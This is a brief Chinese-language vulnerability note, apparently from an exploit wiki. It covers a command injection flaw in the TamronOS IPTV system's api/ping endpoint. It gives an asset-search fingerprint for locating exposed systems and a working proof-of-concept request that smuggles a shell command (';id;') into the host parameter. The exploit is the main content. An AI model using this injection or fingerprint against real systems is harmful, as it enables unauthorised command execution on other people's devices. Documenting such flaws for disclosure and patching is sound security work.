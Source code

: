 # TamronOS IPTV系统 ping 任意命令执行漏洞

## 漏洞描述

TamronOS IPTV系统 api/ping 存在任意命令执行漏洞，攻击者通过漏洞可以执行任意命令

## 漏洞影响

<a-checkbox checked>TamronOS IPTV系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TamronOS-IPTV系统"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/image-20210615145308242.png)



漏洞POC为

```plain
/api/ping?count=5&host=;id;
```

![img](../../../.vuepress/public/img/image-20210615145342322.png)